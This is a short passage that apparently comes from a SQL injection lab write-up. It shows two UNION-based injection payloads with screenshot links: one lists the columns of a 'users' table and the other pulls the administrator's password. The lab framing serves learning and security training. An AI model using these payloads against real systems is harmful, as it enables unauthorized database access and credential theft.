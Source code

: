 ```sql
union select column_name from information_schema.columns where table_schema='public' and table_name='users'--
```

![](/assets/img/ps-writeup-sqli/ps-lab18_9.png)

```sql
union select password from users where username='administrator'--
```

![](/assets/img/ps-writeup-sqli/ps-lab18_10.png)

![](/assets/img/ps-writeup-sqli/ps-lab18_11.png)
